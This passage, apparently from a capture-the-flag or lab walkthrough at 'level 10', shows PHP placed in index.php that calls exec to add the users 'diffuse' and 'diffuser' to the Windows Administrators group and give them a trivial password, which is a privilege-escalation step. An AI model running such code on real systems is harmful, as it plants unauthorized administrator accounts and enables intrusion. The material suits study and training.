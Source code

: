 ![](./assets/level-10-privileged-web.png)

At this point, we can escalate privileges by updating the `index.php` to add `diffuse` and `diffuser` to the `Administrators` group and assign them a simple password.

Here is the code:

```php
<?php

echo exec("whoami");
echo exec("net localgroup Administrators diffuse /add");
echo exec("net localgroup Administrators diffuser /add");
echo exec("net user diffuse pass");
echo exec("net user diffuser pass");

?>
```
